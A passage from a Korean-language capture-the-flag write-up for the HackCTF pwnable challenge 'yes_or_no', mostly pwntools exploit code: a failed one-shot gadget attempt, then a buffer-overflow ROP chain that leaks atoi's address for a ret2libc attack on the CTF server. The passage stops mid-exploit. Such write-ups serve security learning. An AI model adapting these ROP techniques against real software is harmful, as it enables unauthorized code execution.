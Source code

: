 ```python
p.recvline()
p.sendline('9830400')

p.recvline()

payload2='A'*26
payload2+=p64(oneshot_gadget)

p.sendline(payload2)
pause()

p.interactive()
```


하지만 익스는 되지않았고, attach도 원인모를 이유로 되지않아 어떻게 된 상황인지 알 수 없었다.

그래서 방법을 바꿔서 system함수에 /bin/sh문자열을 인자로 주는 방법을 생각하였다.

**system_offset=0x45390**

    root@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/10.yes_or_no# strings -tx libc-2.27.so | grep "/bin/sh"
     18cd57 /bin/sh

**binsh_offset=0x18cd57**

이를 이용해서 다음과 같이 익스코드를 짜보았다.

```python
from pwn import*

#p=process('./yes_or_no')
p=remote('ctf.j0n9hyun.xyz',3009)

puts_plt=0x400580
atoi_got=0x601040
atoi_offset=0x36e80
system_offset=0x45390
binsh_offset=0x18cd57

pop_rdi_ret=0x400883
pop_rsi_pop_r15_ret=0x400881
main=0x4006c7

#####


p.recvline()
p.sendline('9830400')

p.recvline()

payload='A'*26
payload+=p64(pop_rdi_ret)
payload+=p64(atoi_got)
payload+=p64(pop_rsi_pop_r15_ret)
payload+=p64(0)
payload+=p64(0)
payload+=p64(puts_plt)
payload+=p64(pop_rdi_ret)
payload+=p64(0)
payload+=p64(main)

p.sendline(payload)

atoi_address=p.recv(6)
```